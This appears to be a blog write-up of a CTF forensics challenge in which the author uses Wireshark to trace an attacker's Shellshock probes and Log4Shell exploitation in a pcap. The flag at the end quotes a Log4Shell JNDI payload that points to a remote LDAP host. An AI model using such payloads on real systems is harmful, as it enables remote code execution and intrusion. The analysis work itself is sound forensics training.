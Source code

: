 Hello folks!
Shehacksctf was wild, it was great to see hackers from all over the country compete at such a level. I played with the Seekers team and --spoiler alert-- we got first place. On day 2 of the competition the hosts added a few more challenges that made the race to first place even more intriguing. Apparently pwn challs were a no-go-zone for everyone who played, in the words of some.."John alikuwa na makasiriko when creating the challs" haha. Anyway there was one specific Forensics challenge which also had 0 solves, the snifferhound The Boss as the creator @adams_kro called it. 
![[Snifferhounddescr.png]]

Let's play around with it and see if it really was a hound. It was!

So as usual let's spin up wireshark and analyze the pcap file. 

At first glance, the pcap had a number of packets, and we can see two IP addresses from the SYN-ACK packets that may be the attacker and host IPs?
We'll delve into that in a bit, let's understand the pcap file first.
![[Snifferwireshark.png]]
First order is to check the pcap file properties. Important flags here in ctf context are the link type, time elapsed, the comments but it is also important to check the HASH of the file. From our pcap the capture duration was 13 minutes meaning the attacker probably did a lot in that time period. The attacker was connected via Ethernet to the network meaning they had physical access. It's also good to check the comments, some creators would add important details in the comment section. In this, the comment is empty so let's move forward.
![[Pasted image 20230924010705.png]]
The packet hierachy shows the protocols used were UDP, TCP and ARP on IPv4 with a significant number of packets sent on each. Definitely something to look into more
![[Pasted image 20230924010215.png]]

From the challenge description we are told that the computer exploited had a vulnerability and we are required to find the exact cve and payload used for exploitation. There are a couple ways we could find this, one is by using strings filter in wireshark and search the packet details for a string named cve

![[Pasted image 20230924011835.png]]

You got to love wireshark!, we found packets with the string cve in the details.
![[Pasted image 20230924012140.png]]
The packet was sent by IP addr 192.168.56.102 to 192.168.56.104 which we confirmed to be the host. A GET request echoing "bash_cve_2014_6278..." with an output string. Now before we get too excited let's go back and check the challenge requirements. We are required to provide the CVE exploited and the first successful command the attacker executed on the victim machine. 

After inspecting the output a little more I discovered that there were a few other cve's that the attacker tried out on the host. A quick google search of the cve 2014_6278 showed that the vulnerability allows RCE on bash43-026 but based on how the attacker exploited this vulnerability, it was not used for shell!
_ref_: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278

Let's dig more!

A little recon on the host machine can help us narrow down the probable vulns that the attacker might have exploited. Had to do a quick search on this and found this nice resource.
_ref:_ https://unit42.paloaltonetworks.com/using-wireshark-identifying-hosts-and-users/
Based on the User-Agent info the host is a windows machine so be on the look out for vulns like log4shell. Spoiler alert! - No spoilers! finish the article

![[Pasted image 20230924014611.png]]
For the next bitter 10 or so minutes I went around checking packets based on different search filters and checking the host response and the packets that follow. This here is a log4shell routing packet that returned a 404 response.
![[Pasted image 20230924014932.png]]

This method was not convenient so I instead used Statistics to check http requests sent and sorted by packet count. We see that /adamsapps/log4shellpoc had a significant amount of packets so let's use it as a filter.
![[Pasted image 20230924022106.png]]

The attacker used nessus to scan for vulnerabilities, this explains the huge amount of payloads sent in that duration of time. Side note, would love to get a hold of the templates he/she used.
We got a 200 status code from this packet that exploited the log4shell vuln however from the Log entry we see that the POC is not complete. Sorting the packets based on timestamps showed that the attacker gained SSH access after sending this packet.

![[Pasted image 20230924022625.png]]

Doing a quick search on the log4shell vulnerability gave us the CVE number  CVE-2021-44228. The flag format would be shctf{ CVE-2021-44228;${jndi:ldap://10.0.2.5:1389/a}}
